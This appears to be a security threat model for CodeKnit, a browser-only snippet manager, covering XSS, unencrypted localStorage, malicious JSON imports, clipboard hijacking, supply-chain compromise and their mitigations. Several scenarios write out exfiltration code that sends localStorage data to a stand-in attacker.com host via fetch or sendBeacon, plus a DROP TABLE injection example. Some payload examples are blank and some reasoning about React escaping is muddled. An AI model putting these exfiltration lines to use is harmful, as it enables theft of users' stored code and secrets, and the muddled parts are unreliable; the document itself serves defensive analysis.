


# Security threat model and attack surface analysis

## Overview

CodeKnit is a client-side code snippet manager built with TanStack Start and React that stores all user data exclusively in browser localStorage without a backend server. This architecture creates specific security boundaries and threat vectors that differ significantly from server-based applications. This threat model identifies the primary attack surface, threat actors, potential vulnerabilities, and mitigation strategies tailored to CodeKnit's browser-only deployment.

Figure: CodeKnit threat architecture and data boundaries



## Attack surface summary

CodeKnit's attack surface comprises four primary vectors:

1. **localStorage exposure** – Unencrypted snippet storage accessible to any script with JavaScript execution context
2. **XSS in code preview** – Rendering user-supplied code content without sanitization of Markdown or interactive elements
3. **Malicious JSON imports** – Parsing untrusted snippet files without comprehensive validation
4. **Clipboard and browser API misuse** – Clipboard API providing direct access to code content; browser extension or attacker script interception

Each vector is constrained by browser sandbox limitations but remains exploitable under specific threat scenarios.

---

## Threat actors and motivations

### Primary threat actors

**1. Opportunistic Web Attacker (XSS via Malicious Website)**
- **Motivation:** Data theft, credential harvesting, snippet exfiltration
- **Capability:** High – can inject scripts via reflected/stored XSS on CodeKnit domain or partner sites
- **Impact:** Full access to all localStorage snippets containing sensitive code, API keys, database queries
- **Likelihood:** High if CodeKnit is served over HTTP or input validation is bypassed

**2. Insider / Trusted Collaborator**
- **Motivation:** Intellectual property theft, blackmail, competitive advantage
- **Capability:** High – physical access to device or ability to distribute malicious JSON export
- **Impact:** Complete library extraction via JSON export feature (documented in `SettingsDialog.tsx`)
- **Likelihood:** Medium – requires social engineering or legitimate access

**3. Browser Extension Attacker**
- **Motivation:** Data harvesting, cryptomining context injection, surveillance
- **Capability:** Medium – extension with broad permissions can access localStorage and DOM
- **Impact:** Passive harvesting of snippet content; potential code injection
- **Likelihood:** Medium – depends on user installing untrusted extension

**4. Physical Device Attacker**
- **Motivation:** Direct data theft, device compromise
- **Capability:** High – unrestricted access to device filesystem and browser profile
- **Impact:** Complete localStorage data extraction, session hijacking
- **Likelihood:** Low – requires physical device access

**5. Supply Chain Attacker (Compromised Dependency)**
- **Motivation:** Widespread data harvesting, malware injection
- **Capability:** High – code execution during build or runtime
- **Impact:** Silent exfiltration of all user data; injection of malicious code into snippets
- **Likelihood:** Low but high impact – CodeKnit depends on 50+ npm packages (see `package.json`)

---

## Detailed threat analysis

### Threat 1: XSS via unsanitized Code preview rendering

**Vulnerability Description**

CodeKnit renders snippet code using the `Highlighted` component (`CodePreview.tsx`). The rendering pipeline tokenizes code and applies CSS classes for syntax highlighting:

```tsx
export function Highlighted({ code, language }: { code: string; language: Language }) {
  const tokens = useMemo(() => tokenize(code, language), [code, language]);
  return (
    <>
      {tokens.map((t, i) =>
        t.type === "plain" ? t.value : <span key={i} className={CLASS[t.type]}>{t.value}</span>,
      )}
    </>
  );
}
```

**Attack Vector**

An attacker creates a snippet with malicious content:
- **Markdown injection** in description field: ``
- **HTML injection** in code preview: Code containing `<script>` tags or event handlers that execute when rendered
- **SVG/XML payload** in SQL or other languages: `<svg onload="alert(localStorage)"/>`

**Root Cause**

The `SnippetCard` and `SnippetDetailViewer` components render snippet properties directly without escaping:

```tsx
// SnippetCard.tsx
{s.description && <p className="line-clamp-2 text-sm text-muted-foreground">{s.description}</p>}

// SnippetDetailViewer.tsx
<DialogDescription>{s.description || "No description."}</DialogDescription>
```

React's JSX provides implicit XSS protection for text content but does not protect custom HTML strings. The code preview itself uses plain text tokenization, reducing risk, but metadata fields are vulnerable.

**Impact Assessment**

- **Confidentiality:** HIGH – Full localStorage access including all snippets, potentially containing API keys, database credentials, or proprietary algorithms
- **Integrity:** HIGH – Attacker can silently modify or corrupt snippets in-memory before exfiltration
- **Availability:** MEDIUM – Malicious script could delete localStorage, rendering the app unusable

**Exploitation Scenario**

1. Attacker crafts a JSON export file with malicious description containing XSS payload
2. User imports the file via `SettingsDialog.tsx` import feature
3. `parseSnippetImport()` validates JSON structure but does not sanitize field content
4. When user views the imported snippet, React renders the description
5. Malicious script executes in the user's browser context with access to localStorage

**Risk Rating:** **CRITICAL** (exploitable without authentication; full data access)

---

### Threat 2: LocalStorage data exposure and unencrypted storage

**Vulnerability Description**

CodeKnit stores all snippets in browser localStorage without encryption:

```tsx
// AppLayout.tsx
useEffect(() => {
  const saved = localStorage.getItem("codeknit.layout");
  if (saved === "list" || saved === "grid") setLayout(saved);
}, []);
```

The underlying `useSnippets()` store (referenced in `useSnippets` hook) persists data to localStorage. Sensitive content is stored in plaintext, including:
- Full code snippets (may contain API keys, SQL queries, passwords)
- Titles and descriptions (may identify proprietary code)
- Tags and categories (metadata useful for targeting)
- Timestamps of last access

**Attack Vector**

**Local Access:**
- Attacker with device access reads localStorage via browser DevTools or directly from browser profile directory
- Example file locations: `~/.config/google-chrome/Default/Local Storage` (Chrome), `~/.mozilla/firefox/profile/storage` (Firefox)

**Script-Based Access:**
- Any JavaScript code (XSS, extensions, injected scripts) executes `localStorage.getItem("codeknit.*")` and exfiltrates data
- No Content Security Policy (CSP) prevents outbound data fetch requests
- Clipboard API (`navigator.clipboard.writeText()`) used in `SnippetCard.tsx` has no origin restrictions within browser context

**Browser Extension Access:**
- Malicious or compromised browser extension with `storage` and `scripting` permissions reads localStorage
- Example: `chrome.storage.local.get()` or DOM-based access via injected scripts

**Impact Assessment**

- **Confidentiality:** CRITICAL – All snippet data stored without encryption; accessible to any code with JavaScript execution
- **Integrity:** HIGH – Attacker can corrupt or modify stored snippets
- **Availability:** HIGH – Attacker can clear localStorage, destroying all user data

**Exploitation Scenario**

1. User visits malicious website while CodeKnit tab is open in another window
2. Malicious site's JavaScript executes: `const data = localStorage; fetch('https://attacker.com/exfil', {method: 'POST', body: JSON.stringify(data)})`
3. All snippets transmitted to attacker server in plaintext
4. Attacker analyzes code for API credentials, database queries, or proprietary algorithms

**Browser Sandbox Limitations**

- localStorage is **origin-scoped** (same-site-only), protecting against cross-site access
- localStorage is **not accessible** from Web Workers or Service Workers in different contexts
- BUT: **Any code on the same origin** (including compromised subdomains or XSS via DOM injection) has full access

**Risk Rating:** **CRITICAL** (unencrypted; accessible to same-origin scripts)

---

### Threat 3: Malicious JSON import and Code injection

**Vulnerability Description**

CodeKnit allows users to import snippet libraries from JSON files via the Settings dialog:

```tsx
// SettingsDialog.tsx
const importJson = async (file?: File) => {
  if (!file) return;
  setIsImporting(true);
  try {
    const json = await file.text();
    const preview = parseSnippetImport(json);
    const result = await importSnippets(preview.snippets);
    // ...
  } catch (error) {
    toast.error("Import failed", { description: error instanceof Error ? error.message : "Could not read this file." });
  }
};
```

The `parseSnippetImport()` function (referenced but not shown in provided files) performs JSON parsing and validation. However, the validation scope is limited to structure (required fields, data types) and does not perform semantic validation of code content.

**Attack Vector**

**1. Malicious Code Injection in Snippet Content**
- Attacker crafts JSON with snippet `code` field containing:
  - Obfuscated shell commands (for Bash/Python snippets)
  - SQL injection payloads (for SQL snippets)
  - Dangerous JavaScript (for JavaScript snippets) disguised as utility functions
- User imports file unaware of malicious content
- When user copies or uses the snippet, malicious code is introduced to their actual development workflow

**2. Prototype Pollution via JSON Structure**
- Attacker crafts JSON with keys like `__proto__`, `constructor`, or `prototype` to poison JavaScript prototype chain
- Impact depends on how `parseSnippetImport()` and `importSnippets()` merge data

**3. Resource Exhaustion**
- JSON file contains extremely large `code` or `tags` array (e.g., 10 million characters)
- Parser attempts to store in localStorage, causing quota exceeded error or browser crash
- Recovery: User must manually clear browser data

**4. Duplicate/Collision Attacks**
- Attacker imports JSON file with duplicate snippet IDs matching user's existing snippets
- Depending on merge logic, could overwrite existing snippets with malicious versions

**Impact Assessment**

- **Confidentiality:** MEDIUM – Malicious code could be used to identify secrets in existing snippets when user copies
- **Integrity:** HIGH – Imported malicious code becomes part of user's trusted library; risk of copying into production
- **Availability:** MEDIUM – Resource exhaustion or quota errors could disrupt app functionality

**Exploitation Scenario**

1. Attacker emails user a "useful React utilities" JSON export
2. File contains 20 seemingly legitimate React hooks in snippet format
3. One snippet contains: `fetch('https://attacker.com/keystroke', {method: 'POST', body: JSON.stringify(e)})` as a hidden useEffect
4. User copies this snippet into their development environment
5. Malicious code executes when component renders, exfiltrating keystrokes or clipboard data

**Risk Rating:** **HIGH** (requires user to import untrusted file; high impact if exploited)

---

### Threat 4: Clipboard API exploitation and Copy-to-Clipboard attacks

**Vulnerability Description**

CodeKnit uses the Clipboard API (`navigator.clipboard.writeText()`) to copy snippet code without user friction:

```tsx
// SnippetCard.tsx
const { copied, copy } = useCopy();
// ...
<Button size="sm" variant="secondary" className="h-8" onClick={async (e) => { 
  e.stopPropagation(); 
  if (await copy(s.code)) { 
    onRecordCopy().catch(() => undefined); 
  } 
}}>
```

The `useCopy()` hook (not shown) wraps `navigator.clipboard.writeText()` and handles success/failure states.

**Attack Vectors**

**1. Clipboard Hijacking via Malicious Extension**
- Browser extension with `clipboardRead` and `clipboardWrite` permissions intercepts clipboard writes
- When user copies snippet, extension reads the clipboard content before user can paste
- Extension exfiltrates code content to attacker server

**2. Clipboard Replacement Attack**
- Attacker script repeatedly monitors clipboard via Service Worker or background script
- When CodeKnit writes code to clipboard, attacker replaces it with malicious variant
- User pastes malicious code believing it's the legitimate snippet

**3. Timing-Based Leakage**
- If clipboard operations are observable (via performance monitoring or network logs), attacker infers which snippets are frequently copied
- Metadata leakage reveals usage patterns and potentially valuable snippets

**4. Cross-Origin Clipboard Access (Mitigated by Browser)**
- Modern browsers restrict Clipboard API to HTTPS origins and require explicit user gesture
- Risk is **reduced** by browser sandbox but not eliminated for same-origin XSS

**Impact Assessment**

- **Confidentiality:** HIGH – Code content intercepted during copy operation
- **Integrity:** HIGH – Copied code replaced with malicious variant
- **Availability:** LOW – Clipboard operations unlikely to impact application availability

**Exploitation Scenario**

1. User installs malicious browser extension (disguised as "code formatter" or "productivity tool")
2. Extension requests `clipboardRead` and `clipboardWrite` permissions
3. When user copies a database query snippet, extension's background script intercepts
4. Attacker modifies query to include `DROP TABLE` or similar destructive command
5. User pastes into production database console without noticing modification

**Browser Mitigations**
- Clipboard API requires HTTPS (CodeKnit should enforce)
- Clipboard write requires user gesture (copy button click) – attacker cannot silently copy
- Clipboard read requires explicit permission grant
- BUT: Malicious code on same origin (XSS) or extensions can still access

**Risk Rating:** **MEDIUM** (requires extension or XSS; browser provides some protection)

---

### Threat 5: Supply chain compromise via npm dependencies

**Vulnerability Description**

CodeKnit's `package.json` lists 50+ production dependencies and 15+ development dependencies. Each dependency is a potential attack vector if compromised:

```json
"dependencies": {
  "@tanstack/react-router": "1.170.41",
  "@tanstack/react-start": "1.168.60",
  "react": "^19.2.0",
  "zod": "^3.25.76",
  // ... 46 more packages
}
```

Attack vectors include:
- **Typosquatting:** Attacker publishes package with similar name (e.g., `@tanstack/rct-router`)
- **Compromised Maintainer Account:** Attacker gains npm account access and publishes malicious version
- **Dependency Chain Compromise:** Attacker compromises transitive dependency (dependency of a dependency)
- **Semantic Versioning Exploitation:** Malicious code included in patch version (e.g., `1.168.61`) automatically installed via `^` caret

**Attack Vector Scenario**

1. Attacker targets popular dependency like `lucide-react` or `react-hook-form`
2. Publishes version 7.72.0 (patch bump from 7.71.2) with added malicious initialization code
3. Code silently exfiltrates localStorage contents on first module load:
   ```javascript
   // Inside lucide-react/dist/index.js
   if (typeof window !== 'undefined' && window.localStorage) {
     const data = JSON.stringify(Object.entries(localStorage));
     fetch('https://attacker.com/steal', {method: 'POST', body: data});
   }
   ```
4. Build process automatically installs new version (`npm install` with `^` prefix)
5. All users of CodeKnit receive compromised version
6. Malicious code executes silently in every user's browser

**Impact Assessment**

- **Confidentiality:** CRITICAL – All user data exfiltrated on every page load
- **Integrity:** CRITICAL – Malicious code could modify snippets before rendering
- **Availability:** HIGH – Exfiltration or crypto-mining could degrade performance

**Risk Rating:** **HIGH** (requires attacker compromise of trusted source; affects all users simultaneously)

---

## Mitigation strategies

### Input validation and sanitization

**For Code Preview and Metadata Rendering:**

1. **Implement HTML escaping** for all user-supplied text fields (title, description, tags)
   - Use DOMPurify library or React's built-in escaping for plain text
   - Apply sanitization in display layer, not storage layer

```tsx
// Before (Vulnerable)
<p>{s.description}</p>

// After (Mitigated)
import DOMPurify from 'dompurify';
<p>{DOMPurify.sanitize(s.description, { ALLOWED_TAGS: [] })}</p>
```

2. **Restrict Markdown rendering** to safe subset
   - If Markdown is intentional (description field), use `remark` with strict config
   - Disable HTML-in-Markdown parsing
   - Use `remark-gfm` only with HTML escaping enabled

3. **Code preview remains safe** (tokenization approach)
   - Current implementation in `Highlighted` component is secure because tokenization extracts plain text
   - Maintain current approach; never use `dangerouslySetInnerHTML` for code

**For JSON Import Validation:**

4. **Validate JSON schema comprehensively**
   ```typescript
   // Add to parseSnippetImport()
   const schema = z.array(z.object({
     id: z.string().uuid(),
     title: z.string().min(1).max(200),
     description: z.string().max(1000),
     code: z.string().max(100000), // Prevent resource exhaustion
     language: z.enum(['JavaScript', 'Python', 'SQL', 'Markdown']),
     tags: z.array(z.string().max(50)).max(20), // Limit tag count
     category: z.string().max(50),
     isFavorite: z.boolean(),
     createdAt: z.string().datetime(),
     updatedAt: z.string().datetime(),
   }));
   ```

5. **Sanitize imported snippet fields** before merging into store
   - Strip HTML entities from title/description
   - Validate code doesn't contain BOM (Byte Order Mark) or null bytes
   - Reject snippets with suspicious patterns (e.g., `eval(`, `fetch(`, `localStorage.clear()`)

6. **Implement import preview screen**
   - Display all imported snippets before committing to storage
   - Allow user to review and reject individual snippets
   - Show warnings for large imports or suspicious patterns

---

### localStorage encryption and secure storage

**1. Implement client-side encryption for sensitive fields:**

```typescript
import { encrypt, decrypt } from 'tweetnacl'; // or libsodium.js

const encryptSnippet = (snippet: Snippet, password: string): EncryptedSnippet => {
  const payload = JSON.stringify({ code: snippet.code });
  const nonce = randomNonce();
  const encrypted = secretbox(
    stringToUint8Array(payload),
    nonce,
    deriveKey(password)
  );
  return {
    ...snippet,
    code: base64encode(encrypted),
    _nonce: base64encode(nonce),
  };
};
```

**Limitations:**
- Password-based encryption requires user to set a strong passphrase
- Recovery difficult if user forgets passphrase
- Encryption-at-rest does not protect against runtime access (attacker can observe decryption in memory)

**2. Use IndexedDB with encrypted storage:**
- IndexedDB provides larger quota than localStorage (typically 50+ MB vs 5-10 MB)
- Encrypt database contents using `sql.js` with SQLCipher or similar

**3. Add Content Security Policy (CSP) headers:**

```html
<!-- In HTML head -->
<meta http-equiv="Content-Security-Policy" 
  content="default-src 'self'; 
           script-src 'self' 'wasm-unsafe-eval'; 
           style-src 'self' 'unsafe-inline'; 
           connect-src 'self'; 
           frame-ancestors 'none';
           base-uri 'self';
           form-action 'self';" />
```

This prevents:
- Inline script injection
- Loading scripts from external domains
- Exfiltration via `fetch()` to unauthorized origins
- Framing the app in iframes

---

### Browser sandbox and runtime protection

**1. Isolate code preview rendering in iframe:**

```tsx
export function IsolatedCodePreview({ code, language }: Props) {
  const iframeRef = useRef<HTMLIFrameElement>(null);
  
  useEffect(() => {
    if (!iframeRef.current) return;
    // Create sandboxed context with no access to parent localStorage
    const doc = iframeRef.current.contentDocument;
    if (!doc) return;
    doc.body.innerHTML = `<pre>${escapeHtml(code)}</pre>`;
  }, [code]);
  
  return (
    <iframe 
      ref={iframeRef}
      sandbox="allow-same-origin"
      title="Code preview"
      style={{ border: 'none', width: '100%', height: '400px' }}
    />
  );
}
```

**Limitations:**
- Iframe sandbox prevents script execution but also prevents syntax highlighting interactivity
- Use only for display, not for editing

**2. Use Web Workers for data processing:**
- Move JSON parsing and validation to Web Worker (separate thread)
- Worker cannot access localStorage of main thread
- Reduces XSS impact if injected code ends up in worker context

---

### Clipboard API hardening

**1. Add permission checks:**

```tsx
const useCopy = () => {
  const copy = async (text: string): Promise<boolean> => {
    try {
      // Check if clipboard API is available
      if (!navigator.clipboard) {
        throw new Error('Clipboard API not supported');
      }
      
      // Verify HTTPS
      if (window.location.protocol !== 'https:' && window.location.hostname !== 'localhost') {
        throw new Error('Clipboard API requires HTTPS');
      }
      
      await navigator.clipboard.writeText(text);
      return true;
    } catch (e) {
      console.error('Copy failed:', e);
      return false;
    }
  };
  return { copy };
};
```

**2. Restrict clipboard to small snippets:**
- If snippet size > 1 MB, offer download option instead of clipboard copy
- Prevents memory exhaustion or timeout attacks

**3. Add user confirmation for large copy operations:**
- Display toast: "Copied 2500 characters to clipboard"
- Allow user to verify clipboard contents before pasting

---

### JSON import safety features

**1. Implement sandboxed import preview:**

Figure: JSON import validation and preview flow



2. **Display import warnings:**
   - Show snippet count, total size, language breakdown
   - Highlight snippets containing: `fetch(`, `eval(`, `localStorage`, `fetch`, `XMLHttpRequest`
   - Warn if snippet size exceeds 50 KB (likely not human-written)

3. **Add import rollback:**
   ```tsx
   const importSnippets = async (snippets: Snippet[]) => {
     const backup = JSON.stringify(getCurrentSnippets());
     try {
       // Merge snippets to storage
       await saveToLocalStorage(snippets);
     } catch (e) {
       // Restore backup if import fails
       await restoreFromBackup(backup);
       throw e;
     }
   };
   ```

---

### Dependency management and supply chain protection

**1. Lock dependency versions:**

```json
{
  "dependencies": {
    "react": "19.2.0",
    "zod": "3.25.76"
  },
  "lockfileVersion": 3
}
```

- Use exact versions (no `^` or `~` caret/tilde ranges)
- Regenerate `package-lock.json` after each manual update
- Commit lockfile to source control

**2. Implement dependency scanning:**
   - Use `npm audit` or `snyk` in CI/CD pipeline
   - Block builds with high-severity vulnerabilities
   - Set up automated dependency update PRs (Dependabot, Renovate)

**3. Use npm subresource integrity (SRI) for CDN dependencies:**
   ```html
   <script 
     src="https://cdn.example.com/library.js"
     integrity="sha384-ABC123..."
     crossorigin="anonymous">
   </script>
   ```

**4. Build attestation and verification:**
   - Sign build artifacts with GPG
   - Publish build logs to increase transparency
   - Use tools like SLSA framework for supply chain security

---

### User guidance and documentation

**1. Privacy documentation (see [Data Privacy and User Consent for Local Snippet Storage](doc:656566fb-8d73-411f-83b6-340a89c049c6)):**
   - Clearly state: "All data is stored locally on your device in unencrypted format"
   - Warn: "Anyone with access to your browser profile can read all snippets"
   - Recommend: Use strong device password, enable biometric lock, enable full-disk encryption

**2. Security best practices guide:**
   - Never paste sensitive credentials (API keys, tokens) into snippets
   - Review imported JSON files before importing
   - Regularly export and backup snippets to secure location
   - Use privacy mode / incognito for sensitive development work
   - Keep browser and extensions updated

**3. Incident reporting:**
   - Provide security contact email (security@codeknit.dev)
   - Accept responsible disclosure reports
   - Publish security advisories for critical vulnerabilities

---

## Attack scenario walkthroughs

### Scenario 1: Stored XSS via malicious JSON import

**Attacker Goal:** Exfiltrate all user snippets containing database credentials

**Attack Flow:**

1. Attacker crafts JSON export with malicious snippet:
   ```json
   {
     "snippets": [
       {
         "id": "malicious-1",
         "title": "Database Connection",
         "description": "",
         "code": "const conn = db.connect();",
         "language": "JavaScript"
       }
     ]
   }
   ```

2. Attacker emails file to target user with subject "Useful database snippets"

3. User imports JSON via Settings → Import Library

4. `SnippetDetailViewer` or `SnippetCard` renders the snippet description

5. Browser parses HTML and executes `onerror` handler

6. All localStorage data is encoded in Base64 and POSTed to attacker server

7. Attacker decodes JSON and extracts database connection strings

**Mitigation Applied:**
- DOMPurify sanitization removes `` tag before rendering
- CSP `default-src 'self'` blocks fetch to `attacker.com`
- Toast notification warns user of import with HTML-like content

---

### Scenario 2: Clipboard hijacking by extension

**Attacker Goal:** Replace copied code with SQL injection payload before user pastes into database

**Attack Flow:**

1. User installs "Code Formatter Pro" extension (disguised malicious extension)

2. Extension requests permissions: `clipboardRead`, `clipboardWrite`, `scripting`

3. User copies a SQL query snippet from CodeKnit: `SELECT * FROM users WHERE id = ?`

4. Extension's background script intercepts clipboard write event

5. Extension replaces clipboard content with: `SELECT * FROM users; DROP TABLE users; --`

6. User pastes into database query tool, unaware of modification

7. Query executes, dropping production table

**Mitigation Applied:**
- Use `Clipboard API` with explicit user gesture (click button) so extension cannot silently copy
- Display toast with snippet preview after copy: "Copied: SELECT * FROM users..."
- User can verify clipboard contents before pasting
- Recommend users review installed extensions and revoke unnecessary permissions

---

### Scenario 3: Supply chain compromise

**Attacker Goal:** Silently exfiltrate snippets from thousands of CodeKnit users

**Attack Flow:**

1. Attacker compromises npm account of `lucide-react` maintainer via credential stuffing

2. Attacker publishes version `0.576.0` with added initialization code:
   ```javascript
   // lucide-react/dist/index.js
   const StealData = () => {
     if (typeof window !== 'undefined' && window.localStorage) {
       const allData = {};
       for (let i = 0; i < localStorage.length; i++) {
         const key = localStorage.key(i);
         if (key?.startsWith('codeknit')) {
           allData[key] = localStorage.getItem(key);
         }
       }
       navigator.sendBeacon('https://attacker.com/collect', JSON.stringify(allData));
     }
   };
   StealData();
   ```

3. `npm install` automatically upgrades `lucide-react` to 0.576.0 (caret dependency `^0.575.0` allows patch bump)

4. Malicious code executes on every page load for all CodeKnit users

5. User data is silently transmitted via `sendBeacon` API

**Mitigation Applied:**
- Lock dependencies to exact versions (remove `^` caret)
- Run `npm audit` in CI/CD to detect known vulnerabilities
- Review package-lock.json diffs in pull requests
- Use SBOM (Software Bill of Materials) to track all dependencies
- Monitor npm security mailing list for compromised packages

---

## Browser sandbox limitations

### What the browser sandbox protects against

✓ **Cross-origin XSS** – Scripts from `attacker.com` cannot access localStorage of `codeknit.dev`

✓ **Network isolation** – CodeKnit origin cannot directly access files on user's filesystem

✓ **Process isolation** – Each tab runs in isolated process (in modern browsers), limiting lateral movement

✓ **Clipboard read restrictions** – Clipboard content cannot be read without user permission and gesture

### What the browser sandbox does NOT protect against

✗ **Same-origin XSS** – Any code on `codeknit.dev` origin has full access to localStorage

✗ **Malicious extensions** – Extensions with broad permissions can inject scripts and access storage

✗ **Physical device access** – No protection against attacker with unrestricted device access

✗ **Compromised dependencies** – npm packages execute in app context with full access

---

## Security checklist for CodeKnit deployment

**Before Production Release:**

- [ ] Enable HTTPS enforcement (`Strict-Transport-Security` header, minimum 1 year)
- [ ] Implement Content Security Policy (CSP) with `default-src 'self'`, restrict `script-src`
- [ ] Add HTML sanitization library (DOMPurify) for rendering user-supplied text
- [ ] Sanitize all JSON import fields before merging to localStorage
- [ ] Implement import preview UI showing snippet count, size, and content warnings
- [ ] Lock all npm dependencies to exact versions (remove `^` and `~` caret/tilde)
- [ ] Run `npm audit` in CI/CD pipeline; block builds with high-severity vulnerabilities
- [ ] Add integrity checks to verify localStorage data structure after import
- [ ] Implement import rollback mechanism to restore previous state if import fails
- [ ] Add user-visible warnings in Settings about localStorage security (unencrypted, device-scoped)
- [ ] Provide export/reset functionality for user data control (already implemented)
- [ ] Document secure usage practices (avoid storing credentials, review imports, keep browser updated)

**Operational Security:**

- [ ] Publish security contact (security@codeknit.dev) and responsible disclosure policy
- [ ] Monitor npm security advisories for dependencies
- [ ] Set up automated dependency update PRs (Dependabot or Renovate)
- [ ] Review pull requests for security-sensitive changes (storage, clipboard, imports, rendering)
- [ ] Conduct security testing before major releases (manual XSS testing, import fuzzing)
- [ ] Log and monitor for unusual patterns (e.g., multiple rapid exports, large imports)

---

## Related documentation

For comprehensive information on input validation, data storage, and compliance, refer to:

- [Input Validation and Code Injection Prevention in Code Snippets](doc:806909f9-efc4-4302-bb4e-0371f9a07ca9) – Security controls for snippet field validation
- [LocalStorage Data Protection and User Privacy Controls](doc:b57f1991-f1c0-4aa2-80cb-241d6c85f4ec) – Privacy implications and user control mechanisms
- [Browser localStorage Data Protection and User Privacy Controls](doc:a38318fa-35be-4a2f-813f-4f721758d8ea) – Storage security policy and GDPR compliance
- [Data Privacy and User Consent for Local Snippet Storage](doc:656566fb-8d73-411f-83b6-340a89c049c6) – User rights and consent framework
- [Local Data Storage and Persistence](doc:8ac3e7b1-9b83-4aed-9705-427ba72c7c1e) – Technical storage implementation details

---

## Summary

CodeKnit's browser-only architecture provides users with strong privacy guarantees (no server-side data collection) but concentrates all security responsibility on the client side. The primary threats are:

1. **XSS via unsanitized metadata rendering** (CRITICAL) – Mitigated by HTML escaping and CSP
2. **localStorage exposure** (CRITICAL) – Mitigated by user awareness, encryption, and permission restrictions
3. **Malicious JSON imports** (HIGH) – Mitigated by schema validation, import preview, and content scanning
4. **Clipboard interception** (MEDIUM) – Mitigated by user gesture requirement and clipboard verification
5. **Supply chain compromise** (HIGH) – Mitigated by dependency locking and npm audit monitoring

Each threat is addressable through implementation of the recommended mitigations. The browser sandbox provides a strong foundation, but defense-in-depth (input validation, output escaping, CSP, secure coding practices) is essential to protect user data stored entirely on the client device.

Security is not a one-time implementation; CodeKnit must maintain vigilant dependency management, respond to reported vulnerabilities, and educate users about safe practices for handling code snippets containing sensitive information.